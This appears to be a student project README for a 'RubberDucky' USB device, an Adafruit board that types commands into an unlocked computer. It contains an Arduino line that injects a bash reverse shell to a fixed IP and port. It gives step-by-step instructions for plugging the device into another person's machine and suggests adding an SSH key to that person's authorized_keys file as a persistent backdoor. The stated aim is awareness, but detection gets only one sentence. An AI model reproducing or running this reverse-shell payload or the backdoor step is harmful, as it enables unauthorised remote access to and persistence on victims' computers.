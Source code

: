 # RubberDucky
### Summary: 
Through the use of the netcat command our group was able to create a usb device that is capable of creating a backdoor
into another users computer which is on the same network. 

### Objective: 
To demonstrate the risk inhereted when a person leaves a computer unlocked and unattended in a public setting and how that risk can be reduced by locking said computer when leaving it unatended. We were able to deomonstrate how to deal with this attack after it has been carried out, by monitoring a computer for suspicious bash processes and their usage of system resources.

### Hardware: 
Adafruit Feather 32u4 Bluefruit LE
More information can be found [here](https://www.adafruit.com/product/2829)

### Process: 
+ Change the ip address and port within the Arduino Sketch to the ip and port that you will be using on the host machine
```C
  // Create rsh
  Keyboard.print("bash -i >& /dev/tcp/192.101.10.120/1337 0>&1 & disown");
```
+ Flash the Adafruit device with the sketch found in veitchDuck
+ Run the attack.sh file on the host machine 
+ Plug the USB device into the target machine
+ Watch the target computer as a terminal is open, after the commmand has been entered and the terminal has closed you may remove the USB device and return the host machine
+ Congratulations you now have a rsh into another persons computer. 
+ Once here the extensions are endless, however it may be best to add an additional back door to the targets computer for rentry. There are many ways this can be done one is to add a public ssh key to the targets authorized_keys file
More on backdoors can be found [here](https://medium.com/@airman604/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)


### Notes:
This device has been tested on Linux and Mac.
The authors will not be held responsible for any blackhat hacking.
